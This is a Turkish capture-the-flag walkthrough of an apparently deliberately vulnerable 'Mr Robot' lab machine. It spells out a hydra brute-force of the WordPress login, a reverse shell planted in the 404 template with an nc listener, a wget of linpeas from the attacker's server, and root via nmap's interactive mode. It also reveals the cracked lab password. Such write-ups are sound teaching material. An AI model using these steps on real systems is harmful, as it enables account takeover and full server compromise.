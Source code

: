 ## MrRobot Türkçe Çözüm

İlk olarak ıp yi arama çubuğuna yapıştırarak mrrobot sitesine erişelim.Biraz gezinelim, MrRobot'un hayran sitesi tarzında bir site.Hemen nmap ve dirb taraması yapalım.
Bunun için terminalimizi açalım ve `sudo nmap -sS -sV -A IP` yazalım.

Kullandığımız flag'lerin anlamını bu yazımda yazmayacağım çünkü MrRobot odası orta seviye. Eğer flag'lerin ne işe yaradığını bilmiyorsanız terminale "nmap" yazarak ne anlama geldiğini öğrenebilirsiniz.

Bunun yanında bir de dirb araması yapalım bunun için; termianle `dirb http://IP` yazmamız yeterli olacaktır.Biraz bekledikten sonra dirb taraması bize `robots.txt`'nin var olduğunu söyleyecektir (veya kendi elimizle denersek :D, çoğunlukla el alışkanlığı olarak sitelere deneriz.)

Robots.txt'ye girerek (ip'nin sonuna /robots.txt yazın) erişebileceğimiz 2 dosya olduğunu görüyoruz.

Dosyalardan _fsocity.dic_'i bilgisayarımıza indirelim ve sonra da _key-1-of-3.txt_'yi deneyelim. Evet ilk flag'imizi bulduk. Şimdi sıra _fsocity.dic_'i incelemekte.

Bir çeşit brute force için yapılmış bir dosya gibi duruyor. İçerisinde bir sürü kelime barındırıyor; bunları sitenin admin panelini bulup brute force yapmak için kullanabiliriz.

Şimdi siteye geri dönelim, eğer biraz kurcalarsak (dirb'in bulduğu şeylere girip bakarsak mesela) sitenin aslında bir wordpress sitesi olduğunu öğreneceğiz. Bunun için dirb taramasından bulunan /atom'a bakarsak bir atom dosyası indirilecek bilgisayara.Dosyayı incelediğimizde **another wordpress site** yazısını görebiliriz.

Bundan sonra hemen admin paneline erişmek için /wp-login yazmamız yeterli çünkü wordpress sitelerinin admin paneline bu şekilde erişiliyor,tabi site sahibi değiştirmediyse (yani bu varsayılan).Şimdi **hydra** kullanarak indirdiğimiz _fsocity.dic_ dosyasını da birlikte kullanarak bir bruteforce yapalım.Burası biraz karmaşık gelebilir.

İlk önce şunu söylemem gerekli wordpress admin paneline giriş için herhangi bir kullanıcı adı ile şifre denediğimizde bize böyle bir kullanıcı adının olmadığını söylüyor.

Biz buraya eğer ki doğru kullanıcı adını girersek site bize bu kullanıcı adı için yanlış şifre girdiğimizi söylüyor.Bizim brute force yapabilmemiz için de kullanıcı adına ihtiyacımız var.

Biraz mantıklı düşündükten sonra (kullanıcı adı ne olabilir diye) elliot oldukça mantıklı geliyor :D ve deniyoruz.Kullanıcı adını böylece bulmuş olduk(burada bir şey söylemem gerek.Aslında kullanıcı adını tehmin etmemize gerek olmayabilirdi, indirdiğimiz fsocity.dic dosyasını kullanarak hydra ve burpsuite yardımıyla doğru kullanıcı adını bulabilirdik ama burası hem karmaşık hem de uzun olduğundan dolayı burayı es geçiyorum

.Size bunun hakkında bir video linki bırakıyorum fakat ingilizce :(( şifreyi de aynı şekilde çözeceğiz mutlaka bakmanızı öneriyorum.Kilit nokta doğru hata mesajını yazmakta,videoyu izledikten sonra analaycaksınız LİNK).Şimdi hydra ile bruteforce yapma zamanı.Az önce verdiğim videoda gerekli kodları nasıl çıkartacağımızı görebilirsiniz.Ben yazının uzamasını istemediğimden kodu buraya bırakıyorum (sudo hydra -l elliot -P ~/Desktop/deneme.txt IP -V http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=incorrect") kısaca bashetmek gerekirse -l flag'i kullanıcı adı yerine yazması gerektiği kelimeyi veya dosyayı yazıyor,yani yanına elliot yazıyoruz -P flag'i de şifre için dosya yazıyor.Şifre ve kullanıcı adını girmesi gereken yerleri; ^USER^ ve ^PASS^ şeklinde belirliyoruz(devamı videoda :D).Şifreyi bulması biraz uzun sürdüğünden dolayı size şifreyi buraya bırakıyorum ;) (ER28-0652).Şu anda admin panelinin içerisindeyiz.Tema düzenleyerek içeriye bir reverse shell yerleştirelim ve ana bilgisayara erişim kazanalım. Bunun için appearance kısmından editor kısmına giriyoruz ve 404template'i düzenliyoruz. reverse shell php kodumuzu buraya yapıştıracağız ama bundan önce size reverse shell dosyası vereyim :D bu dosyada değiştirilmesi gereken ip ve port kısmı var ip ye kendi ip mizi yapışıtırıyoruz sonra terminali açıp nc -lvnp 4444 yazıyoruz (4444 port, istediğinizi yazabilirsiniz) şu anda kendi ip'miz üzerindeki 4444 portunu dinliyoruz.Şimdi reverse shell dosyasındaki port kısmında dineldiğimiz portu yazıyoruz (4444 yazmıştım ben) yazıyoruz.Şimdi o tüm yazıları kopyalayıp editor kısmındaki 404 template ye yapıştırıyoruz.Alt taraftan update file dedikten sonra ıp/404.php yazarak kodumuzu aktifleştiriyoruz.Dinlemeye aldığımız terminale bakarsak shell'imiz geldi (ana bilgisayara erişim).Bu shell oldukça kullanışsız eğer bu shell'i geliştirmezsek istediğimiz şeyleri kullanamayız mesela sudo -l.Bu yüzden shell'i kullanışlı hale getirelim yani bir nevi üst sürüme taşıyalım.Bunun için basit bir python kodu kullanacağız.Nasıl çalıştığını burada açıklamayacağım.python kodu :(python -c 'import pty; pty.spawn("/bin/bash")').Bu kodu terminale yapıştrın veee işte! Güzel,kullanışlı bir shell'imiz oldu.Artık istediğimizi yapabiliriz.Şimdi terminalde "ls" yaptığımız zaman bir sürü dosya göreceğiz.Biz home'a girelim,bunun için cd home yapalım.İçinde robot klasörü var.Onun içinde de 2.flag'imiz ve bir dosya var.2 dosyayı da cat edelim.Gördüğünüz gibi flag dosyasını açamadık çünkü yetkimiz yetmedi ama password dosyası açıldı.Hemen kullanıcı değiştirmeyi deneyelim bunun için "su robot" yazalım ve robotun karşısındaki şifreyi girelim (yani yapıştıralım :D).Şifrenin yanlış olduğunu anlamış olduk.Demek ki bu elimizdeki rastgele gibi yazılmış olan şey bir şifreli yazıymış.Bunun için online olarak bu tür kodları çevirebileceğimiz siteler.Var benim kullandığım site bu LİNK.Şifremizi bulduğumuza göre şimdi bir kez daha "su robot" yapabiliriz.Evet, kullanıcı yetkimizi robot kullanıcısına yükseltmiş olduk.Şimdi açamadığım flag dosyasını açmayı deneyelim.Açıldı, 2.flag'imizi bulmuş olduk.Şimdi sıra 3.flag'de.Bunun için tekrar dosyalara göz atmaya başlayalım.Root dosyasına girmek istediğimizde yetkimizin yeterli olmadığını söylüyor.Kendimizi root kullanıcısına yükseltmemiz gerekiyor.Bunun için oldukça basit bir numara var terminale "sudo -l" yazdığımız zaman hangi uygulamaları root yetkisine ihtiyaç olmadan kullanabileceğimizi gösteriyor.Hemen denersek ve robot için olan şifreyi girersek maalesef ki robot kullanıcısının sudo komutunu kullanamadığını görüyoruz (offf amma uğraşıtrdı :D).Şimdi yapmamız gereken şey linpeas uygulamasını bu bilgisayara aktarmak ve sonra da çalıştırmak.Linpeas uygulaması da "sudo -l" komutunun yaptığı işin biraz abartılı ve detaylsını yapıyor. Kısacası neredeyse root'suz yani sudo komutu olmadan kullanabileceğim her şeyi gösteriyor.Bunun için sizin de linpeas uygulamasına ihtiyacınız olacak o yüzden buraya linkin bırakıyorum LİNK.İlk olarak kendi bilgisayarımızda bir server oluşturacağız ve diğer bilgisayardan bağlanarak linpeas uygulamasını çekeceğiz.Bunun için terminale (python -m SimpleHTTPServer ) yazıyoruz.Serverimiz oluşturuldu ve portumuz da terminalde yazıyor.Şimdi öbür terminale yani kurban bilgisayara geçip;cd /tmp/ yapıyoruz çünkü bir tek tmp klasörüne bir şeyler yazma iznimiz var.Sonrasında "wget IP:PORT/linpeas.konumu(/Desktop/linpeas.sh)" şeklinde yazıyoruz.Linpeas indirildi şimdi ilk olarak "chmod +x linpeas.sh yazıp kullanılabilir hale getiriyoruz.Sonrasında ./linpeas.sh yazıp uygulamayı açıyoruz.Resimde de görüldüğü gibi "nmap" rootsuz kullanılabilir.İnternette nmap açığını kullanarak nasıl root yetkisine kavuşabileceğimizi araştıralım.Benim en çok kullandığım site (GTFObins).Bu sitede arama kısmına nmap yazalım ve bize root'a kavuşmamız için kodları göstersin.Bu kod işimize yarayacak (nmap --interactive nmap> !sh).İlk olarak nmap --interactive yazalım ve nmap açılsın, nmap> işareti çıkınca da ! sh yazalım.# geldiğine göre artık istediğimizi yapabiliriz.Hemen root konumuna gidelim ve bayrağımızı alalım.
